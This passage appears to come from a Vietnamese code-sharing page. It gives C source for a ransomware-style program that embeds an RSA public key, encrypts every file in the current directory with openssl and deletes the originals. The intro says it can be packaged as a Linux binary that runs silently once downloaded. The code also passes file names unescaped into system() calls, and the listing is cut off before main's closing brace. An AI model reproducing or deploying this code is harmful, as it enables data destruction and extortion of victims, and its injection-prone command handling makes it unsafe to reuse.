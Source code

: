 > Đoạn mã C-lang dưới đây dược sử dụng để mã hóa dữ liệu được tôi chuyển đổi từ script **encrypt.sh** phía trên, nó có thể được đóng gói thành file linux và cài đặt thực thi ngầm khi bạn tải về!

```c
// main.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char public_pem[] = "-----BEGIN PUBLIC KEY-----\n"
                        "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz/B9j/mui+Xv5hjXJneV\n"
                        "6Pt91fF6GJnZkPb5c7/StD36Gi3Uexa/AL17HIaCaLipg7McjldPVF9221Lm0Cpw\n"
                        "lBA3+kOxwbVMeBh+Uw5PQeyUFReMtLNQ8RGvWsH92RItA1LdsjA+S6z7rI799YA0\n"
                        "CPDSYSxRJtvA5AfkmseIZsbakYH/8e1OcNKGHiqqZswnM3QGdb+BZyqchc9PrswI\n"
                        "SOM2QGlX7J6l0MsKl4G/qY//akVeuI9JAxoMdYIPVn62vEBB7CDYOQhP10uH7EQd\n"
                        "UWqfb6nfpkMlBii20MxWckZhkybF9MlaLqzWClhxjseq30l1YM21kxEviT1WPpUN\n"
                        "awIDAQAB\n"
                        "-----END PUBLIC KEY-----\n";

    // Tạo một tệp tạm thời chứa khóa công khai
    FILE *temp_public_file = fopen("temp_public.pem", "w");
    if (temp_public_file == NULL) {
        perror("Không thể tạo tệp tạm thời");
        return 1;
    }
    fputs(public_pem, temp_public_file);
    fclose(temp_public_file);

    // Tìm tất cả các tệp trong thư mục hiện tại trừ private.pem, public.pem và test.sh
    system("ls | grep -vE 'private.pem|public.pem|test.sh' > filelist.txt");

    // Mở filelist.txt để đọc danh sách các file
    FILE *filelist_file = fopen("filelist.txt", "r");
    if (filelist_file == NULL) {
        perror("Không thể mở filelist.txt");
        return 1;
    }

    char file_name[256];
    // Lặp qua từng file trong danh sách
    while (fgets(file_name, sizeof(file_name), filelist_file) != NULL) {
        // Loại bỏ ký tự xuống dòng
        strtok(file_name, "\n");

        // Mã hóa file và xóa file gốc
        printf(">>> Encrypting %s\n", file_name);
        char command[512];
        sprintf(command, "openssl pkeyutl -encrypt -inkey temp_public.pem -pubin -in %s -out %s.enc", file_name, file_name);
        system(command);

        printf("Removing %s\n", file_name);
        remove(file_name);
    }

    // Đóng filelist.txt
    fclose(filelist_file);

    // Xóa tệp tạm thời
    remove("temp_public.pem");
    remove("filelist.txt");

    return 0;
```